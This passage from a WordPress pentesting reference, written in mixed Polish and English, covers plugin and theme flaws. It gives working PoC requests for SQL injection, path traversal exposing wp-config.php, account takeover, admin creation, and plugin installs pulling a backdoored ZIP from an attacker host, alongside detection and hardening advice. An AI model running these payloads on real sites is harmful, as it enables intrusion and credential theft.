curl -X POST https://victim.com/wp-admin/admin-post.php \
-d 'task=savecategory' \
-d '_wpnonce=<nonce>' \
-d 'parentid=0 OR 1=1-- -' \
-d 'cat_title=pwn' -d 'id='
```
Odpowiedź ujawnia wynik wstrzykniętego zapytania lub modyfikuje bazę danych, potwierdzając SQLi.


### Unauthenticated Arbitrary File Download / Path Traversal (WP Job Portal <= 2.3.2)

Kolejne zadanie, **downloadcustomfile**, pozwalało odwiedzającym pobrać **dowolny plik na dysku** przez path traversal. Wrażliwy sink znajduje się w `modules/customfield/model.php::downloadCustomUploadedFile()`:
```php
$file = $path . '/' . $file_name;
...
echo $wp_filesystem->get_contents($file); // raw file output
```
`$file_name` jest kontrolowany przez atakującego i konkatenowany **bez sanitacji**. Ponownie, jedynym zabezpieczeniem jest **CSRF nonce**, który można pobrać ze strony CV.

#### Eksploatacja
```bash
curl -G https://victim.com/wp-admin/admin-post.php \
--data-urlencode 'task=downloadcustomfile' \
--data-urlencode '_wpnonce=<nonce>' \
--data-urlencode 'upload_for=resume' \
--data-urlencode 'entity_id=1' \
--data-urlencode 'file_name=../../../wp-config.php'
```
Serwer zwraca zawartość `wp-config.php`, leaking DB credentials and auth keys.

## Przejęcie konta bez uwierzytelnienia via Social Login AJAX fallback (Jobmonster Theme <= 4.7.9)

Wiele motywów/wtyczek dostarcza "social login" helpery udostępnione przez admin-ajax.php. Jeśli nieautoryzowana akcja AJAX (wp_ajax_nopriv_...) ufa identyfikatorom dostarczonym przez klienta, gdy brakuje danych providera, a następnie wywołuje wp_set_auth_cookie(), staje się to pełnym ominięciem uwierzytelniania.

Typowy wadliwy wzorzec (uproszczony)
```php
public function check_login() {
// ... request parsing ...
switch ($_POST['using']) {
case 'fb':     /* set $user_email from verified Facebook token */ break;
case 'google': /* set $user_email from verified Google token   */ break;
// other providers ...
default: /* unsupported/missing provider – execution continues */ break;
}

// FALLBACK: trust POSTed "id" as email if provider data missing
$user_email = !empty($user_email)
? $user_email
: (!empty($_POST['id']) ? esc_attr($_POST['id']) : '');

if (empty($user_email)) {
wp_send_json(['status' => 'not_user']);
}

$user = get_user_by('email', $user_email);
if ($user) {
wp_set_auth_cookie($user->ID, true); // 🔥 logs requester in as that user
wp_send_json(['status' => 'success', 'message' => 'Login successfully.']);
}
wp_send_json(['status' => 'not_user']);
}
// add_action('wp_ajax_nopriv_<social_login_action>', [$this, 'check_login']);
```
Dlaczego to jest podatne

- Możliwość dostępu bez uwierzytelnienia przez admin-ajax.php (akcja wp_ajax_nopriv_…).
- Brak nonce/capability checks przed zmianą stanu.
- Brak weryfikacji OAuth/OpenID provider; domyślna gałąź akceptuje dane od atakującego.
- get_user_by('email', $_POST['id']) w połączeniu z wp_set_auth_cookie($uid) uwierzytelnia żądającego jako dowolny istniejący adres e-mail.

Eksploatacja (bez uwierzytelnienia)

- Wymagania wstępne: atakujący może dotrzeć do /wp-admin/admin-ajax.php i zna/zgaduje prawidłowy adres e-mail użytkownika.
- Ustaw provider na nieobsługiwaną wartość (lub go pomiń), aby wejść do domyślnej gałęzi i przekazać id=<victim_email>.
```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: victim.tld
Content-Type: application/x-www-form-urlencoded

action=<vulnerable_social_login_action>&using=bogus&id=admin%40example.com
```

```bash
curl -i -s -X POST https://victim.tld/wp-admin/admin-ajax.php \
-d "action=<vulnerable_social_login_action>&using=bogus&id=admin%40example.com"
```
Expected success indicators

- HTTP 200 with JSON body like {"status":"success","message":"Login successfully."}.
- Set-Cookie: wordpress_logged_in_* for the victim user; subsequent requests are authenticated.

Finding the action name

- Inspect the theme/plugin for add_action('wp_ajax_nopriv_...', '...') registrations in social login code (e.g., framework/add-ons/social-login/class-social-login.php).
- Grep for wp_set_auth_cookie(), get_user_by('email', ...) inside AJAX handlers.

Detection checklist

- Web logs showing unauthenticated POSTs to /wp-admin/admin-ajax.php with the social-login action and id=<email>.
- 200 responses with the success JSON immediately preceding authenticated traffic from the same IP/User-Agent.

Hardening

- Do not derive identity from client input. Only accept emails/IDs originating from a validated provider token/ID.
- Require CSRF nonces and capability checks even for login helpers; avoid registering wp_ajax_nopriv_ unless strictly necessary.
- Validate and verify OAuth/OIDC responses server-side; reject missing/invalid providers (no fallback to POST id).
- Consider temporarily disabling social login or virtually patching at the edge (block the vulnerable action) until fixed.

Patched behaviour (Jobmonster 4.8.0)

- Removed the insecure fallback from $_POST['id']; $user_email must originate from verified provider branches in switch($_POST['using']).

## Unauthenticated privilege escalation via REST token/key minting on predictable identity (OttoKit/SureTriggers ≤ 1.0.82)

Niektóre wtyczki udostępniają endpointy REST, które wydają wielokrotnego użytku “connection keys” lub tokeny bez weryfikacji uprawnień wywołującego. Jeśli trasa uwierzytelnia się tylko na podstawie przewidywalnego atrybutu (np. username) i nie wiąże klucza z użytkownikiem/sesją z użyciem sprawdzeń capability, dowolny nieuwierzytelniony atakujący może wygenerować klucz i wywołać uprzywilejowane akcje (admin account creation, plugin actions → RCE).

- Vulnerable route (example): sure-triggers/v1/connection/create-wp-connection
- Flaw: accepts a username, issues a connection key without current_user_can() or a strict permission_callback
- Impact: full takeover by chaining the minted key to internal privileged actions

PoC – mint a connection key and use it
```bash
# 1) Obtain key (unauthenticated). Exact payload varies per plugin
curl -s -X POST "https://victim.tld/wp-json/sure-triggers/v1/connection/create-wp-connection" \
-H 'Content-Type: application/json' \
--data '{"username":"admin"}'
# → {"key":"<conn_key>", ...}

# 2) Call privileged plugin action using the minted key (namespace/route vary per plugin)
curl -s -X POST "https://victim.tld/wp-json/sure-triggers/v1/users" \
-H 'Content-Type: application/json' \
-H 'X-Connection-Key: <conn_key>' \
--data '{"username":"pwn","email":"p@t.ld","password":"p@ss","role":"administrator"}'
```
Dlaczego to jest podatne na atak
- Wrażliwa REST route chroniona jedynie słabym dowodem tożsamości o niskiej entropii (username) lub brakującym permission_callback
- Brak egzekwowania capability; wygenerowany klucz jest akceptowany jako uniwersalne obejście

Lista kontrolna wykrywania
- Przeszukaj kod pluginu (grep) w poszukiwaniu register_rest_route(..., [ 'permission_callback' => '__return_true' ])
- Każda trasa, która wydaje tokens/keys na podstawie tożsamości podanej w żądaniu (username/email) bez powiązania z uwierzytelnionym użytkownikiem lub capability
- Szukaj kolejnych tras, które akceptują wygenerowany token/klucz bez serwerowych kontroli capability

Wzmocnienie
- Dla każdej uprzywilejowanej REST route: wymuszaj permission_callback, które wywołuje current_user_can() dla wymaganej capability
- Nie generuj długowiecznych kluczy na podstawie tożsamości dostarczonej przez klienta; jeśli konieczne, wydawaj krótkotrwałe, powiązane z użytkownikiem tokeny po uwierzytelnieniu i ponownie sprawdzaj capability podczas użycia
- Weryfikuj kontekst użytkownika wywołującego (wp_set_current_user samo w sobie nie wystarczy) i odrzucaj żądania, gdy !is_user_logged_in() || !current_user_can(<cap>)

---

## Nonce gate misuse → nieuwierzytelniona dowolna instalacja pluginu (FunnelKit Automations ≤ 3.5.3)

Nonces zapobiegają CSRF, nie są mechanizmem autoryzacji. Jeśli kod traktuje pozytywną weryfikację nonce jako zielone światło i pomija kontrole capability dla uprzywilejowanych operacji (np. install/activate plugins), nieuwierzytelnieni atakujący mogą spełnić słaby wymóg nonce i osiągnąć RCE poprzez zainstalowanie backdoored lub podatnego pluginu.

- Vulnerable path: plugin/install_and_activate
- Flaw: weak nonce hash check; no current_user_can('install_plugins'|'activate_plugins') once nonce “passes”
- Impact: full compromise via arbitrary plugin install/activation

PoC (kształt zależny od pluginu; tylko ilustracyjne)
```bash
curl -i -s -X POST https://victim.tld/wp-json/<fk-namespace>/plugin/install_and_activate \
-H 'Content-Type: application/json' \
--data '{"_nonce":"<weak-pass>","slug":"hello-dolly","source":"https://attacker.tld/mal.zip"}'
```
Lista kontrolna wykrywania
- REST/AJAX handlers that modify plugins/themes with only wp_verify_nonce()/check_admin_referer() and no capability check
- Any code path that sets $skip_caps = true after nonce validation

Wzmacnianie
- Always treat nonces as CSRF tokens only; enforce capability checks regardless of nonce state
- Require current_user_can('install_plugins') and current_user_can('activate_plugins') before reaching installer code
- Reject unauthenticated access; avoid exposing nopriv AJAX actions for privileged flows

### Subscriber+ AJAX plugin installer → wymuszona złośliwa aktywacja (Motors Theme ≤ 5.6.81)

[Patchstack's analysis](https://patchstack.com/articles/critical-arbitrary-file-upload-vulnerability-in-motors-theme-affecting-20k-sites/) showed how the Motors theme ships an authenticated AJAX helper for installing its companion plugin:
```php
add_action('wp_ajax_mvl_theme_install_base', 'mvl_theme_install_base');

function mvl_theme_install_base() {
check_ajax_referer('mvl_theme_install_base', 'nonce');

$plugin_url  = sanitize_text_field($_GET['plugin']);
$plugin_slug = 'motors-car-dealership-classified-listings';

$upgrader = new Plugin_Upgrader(new Motors_Theme_Plugin_Upgrader_Skin(['plugin' => $plugin_slug]));
$upgrader->install($plugin_url);
mvl_theme_activate_plugin($plugin_slug);
}
```
- Tylko `check_ajax_referer()` jest wywoływane; nie ma `current_user_can('install_plugins')` ani `current_user_can('activate_plugins')`.
- Nonce jest osadzony na stronie administracyjnej Motors, więc każdy użytkownik o roli Subscriber, który może otworzyć `/wp-admin/`, może go skopiować z HTML/JS.
- Handler ufa kontrolowanemu przez atakującego parametrowi `plugin` (czytanemu z `$_GET`) i przekazuje go do `Plugin_Upgrader::install()`, więc dowolne zdalne ZIP zostanie pobrane do `wp-content/plugins/`.
- Po instalacji motyw jednoznacznie wywołuje `mvl_theme_activate_plugin()`, gwarantując wykonanie kodu PHP z pluginu atakującego.

#### Przebieg eksploatacji

1. Zarejestruj/przejmij konto o niskich uprawnieniach (wystarczy Subscriber) i zdobądź nonce `mvl_theme_install_base` z panelu Motors.
2. Zbuduj plugin ZIP, którego katalog najwyższego poziomu odpowiada oczekiwanemu slugowi `motors-car-dealership-classified-listings/` i osadź backdoor lub webshell w punktach wejścia `*.php`.
3. Hostuj ZIP i uruchom instalator, wskazując handler na swój URL:
```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: victim.tld
Cookie: wordpress_logged_in_=...
Content-Type: application/x-www-form-urlencoded

action=mvl_theme_install_base&nonce=<leaked_nonce>&plugin=https%3A%2F%2Fattacker.tld%2Fmotors-car-dealership-classified-listings.zip
```
Ponieważ handler odczytuje `$_GET['plugin']`, ten sam payload można również wysłać przez query string.

#### Lista kontrolna wykrywania

- Przeszukaj motywy/wtyczki pod kątem `Plugin_Upgrader`, `Theme_Upgrader`, lub niestandardowych helperów `install_plugin.php` podłączonych do hooków `wp_ajax_*` bez sprawdzeń uprawnień.
- Sprawdź każdy handler, który przyjmuje parametr `plugin`, `package`, `source` lub `url` i przekazuje go do upgrader APIs, szczególnie gdy slug jest zakodowany na stałe, ale zawartość ZIP nie jest weryfikowana.
- Przejrzyj strony admina, które ujawniają nonces dla akcji instalatora — jeśli Subscribers mogą załadować stronę, assume the nonce leaks.

#### Hardening

- Gate installer AJAX callbacks with `current_user_can('install_plugins')` and `current_user_can('activate_plugins')` after nonce verification; Motors 5.6.82 introduced this check to patch the bug.
- Refuse untrusted URLs: limit installers to bundled ZIPs or trusted repositories, or enforce signed download manifests.
- Treat nonces strictly as CSRF tokens; they do not provide authorization and should never replace capability checks.

---

## Nieuwierzytelnione SQLi poprzez parametr s w akcjach depicter-* (Depicter Slider ≤ 3.6.1)

Kilka akcji depicter-* odczytywało parametr s (search) i konkatenowało go do zapytań SQL bez parametryzacji.

- Parametr: s (search)
- Błąd: direct string concatenation in WHERE/LIKE clauses; no prepared statements/sanitization
- Wpływ: database exfiltration (users, hashes), lateral movement

PoC
```bash
# Replace action with the affected depicter-* handler on the target
curl -G "https://victim.tld/wp-admin/admin-ajax.php" \
--data-urlencode 'action=depicter_search' \
--data-urlencode "s=' UNION SELECT user_login,user_pass FROM wp_users-- -"
```
Lista kontrolna wykrywania
- Grep for depicter-* action handlers and direct use of $_GET['s'] or $_POST['s'] in SQL
- Przejrzyj niestandardowe zapytania przekazywane do $wpdb->get_results()/query() łączące s

Wzmacnianie zabezpieczeń
- Zawsze używaj $wpdb->prepare() lub wpdb placeholders; odrzucaj nieoczekiwane znaki specjalne po stronie serwera
- Dodaj ścisłą listę dozwolonych wartości dla s i znormalizuj do oczekiwanego zestawu znaków/długości

---

## Unauthenticated Local File Inclusion przez niezweryfikowaną ścieżkę szablonu/pliku (Kubio AI Page Builder ≤ 2.5.1)

Akceptowanie ścieżek kontrolowanych przez atakującego w parametrze template bez normalizacji/izolacji umożliwia odczyt dowolnych lokalnych plików, a czasami wykonanie kodu, jeśli includowalne pliki PHP/log zostaną załadowane podczas wykonywania.

- Parametr: __kubio-site-edit-iframe-classic-template
- Błąd: brak normalizacji/listy dozwolonych; traversal dozwolony
- Wpływ: ujawnienie sekretów (wp-config.php), potencjalne RCE w określonych środowiskach (log poisoning, includable PHP)

PoC – odczyt wp-config.php
```bash
curl -i "https://victim.tld/?__kubio-site-edit-iframe-classic-template=../../../../wp-config.php"
```
Lista kontrolna wykrywania
- Dowolny handler łączący ścieżki żądań bezpośrednio w include()/require()/read sinki bez ograniczenia przez realpath()
- Szukaj wzorców traversal (../) prowadzących poza zamierzony katalog szablonów

Wzmocnienie
- Wymuszaj użycie szablonów z listy dozwolonych; rozwiązuj przez realpath() i wymagaj str_starts_with(realpath(file), realpath(allowed_base))
- Normalizuj wejście; odrzucaj sekwencje traversal i ścieżki absolutne; używaj sanitize_file_name() tylko dla nazw plików (nie pełnych ścieżek)


## Referencje

- [Unauthenticated Arbitrary File Deletion Vulnerability in Litho Theme](https://patchstack.com/articles/unauthenticated-arbitrary-file-delete-vulnerability-in-litho-the/)
- [Multiple Critical Vulnerabilities Patched in WP Job Portal Plugin](https://patchstack.com/articles/multiple-critical-vulnerabilities-patched-in-wp-job-portal-plugin/)
- [Rare Case of Privilege Escalation in ASE Plugin Affecting 100k+ Sites](https://patchstack.com/articles/rare-case-of-privilege-escalation-in-ase-plugin-affecting-100k-sites/)
- [ASE 7.6.3 changeset – delete original roles on profile update](https://plugins.trac.wordpress.org/changeset/3211945/admin-site-enhancements/tags/7.6.3/classes/class-view-admin-as-role.php?old=3208295&old_path=admin-site-enhancements%2Ftags%2F7.6.2%2Fclasses%2Fclass-view-admin-as-role.php)
- [Hosting security tested: 87.8% of vulnerability exploits bypassed hosting defenses](https://patchstack.com/articles/hosting-security-tested-87-percent-of-vulnerability-exploits-bypassed-hosting-defenses/)
- [WooCommerce Payments ≤ 5.6.1 – Unauth privilege escalation via trusted header (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/woocommerce-payments/vulnerability/wordpress-woocommerce-payments-plugin-5-6-1-unauthenticated-privilege-escalation-vulnerability)
- [Hackers exploiting critical WordPress WooCommerce Payments bug](https://www.bleepingcomputer.com/news/security/hackers-exploiting-critical-wordpress-woocommerce-payments-bug/)
- [Unpatched Privilege Escalation in Service Finder Bookings Plugin](https://patchstack.com/articles/unpatched-privilege-escalation-in-service-finder-bookings-plugin/)
- [Service Finder Bookings privilege escalation – Patchstack DB entry](https://patchstack.com/database/wordpress/plugin/sf-booking/vulnerability/wordpress-service-finder-booking-6-0-privilege-escalation-vulnerability)
- [Unauthenticated Broken Authentication Vulnerability in WordPress Jobmonster Theme](https://patchstack.com/articles/unauthenticated-broken-authentication-vulnerability-in-wordpress-jobmonster-theme/)
- [Q3 2025’s most exploited WordPress vulnerabilities and how RapidMitigate blocked them](https://patchstack.com/articles/q3-2025s-most-exploited-wordpress-vulnerabilities-and-how-patchstacks-rapidmitigate-blocked-them/)
- [OttoKit (SureTriggers) ≤ 1.0.82 – Privilege Escalation (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/suretriggers/vulnerability/wordpress-suretriggers-1-0-82-privilege-escalation-vulnerability)
- [FunnelKit Automations ≤ 3.5.3 – Unauthenticated arbitrary plugin installation (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/wp-marketing-automations/vulnerability/wordpress-recover-woocommerce-cart-abandonment-newsletter-email-marketing-marketing-automation-by-funnelkit-plugin-3-5-3-missing-authorization-to-unauthenticated-arbitrary-plugin-installation-vulnerability)
- [Depicter Slider ≤ 3.6.1 – Unauthenticated SQLi via s parameter (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/depicter/vulnerability/wordpress-depicter-slider-plugin-3-6-1-unauthenticated-sql-injection-via-s-parameter-vulnerability)
- [Kubio AI Page Builder ≤ 2.5.1 – Unauthenticated LFI (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/kubio/vulnerability/wordpress-kubio-ai-page-builder-plugin-2-5-1-unauthenticated-local-file-inclusion-vulnerability)
- [Critical Arbitrary File Upload Vulnerability in Motors Theme Affecting 20k+ Sites](https://patchstack.com/articles/critical-arbitrary-file-upload-vulnerability-in-motors-theme-affecting-20k-sites/)

{{#include ../../banners/hacktricks-training.md}}
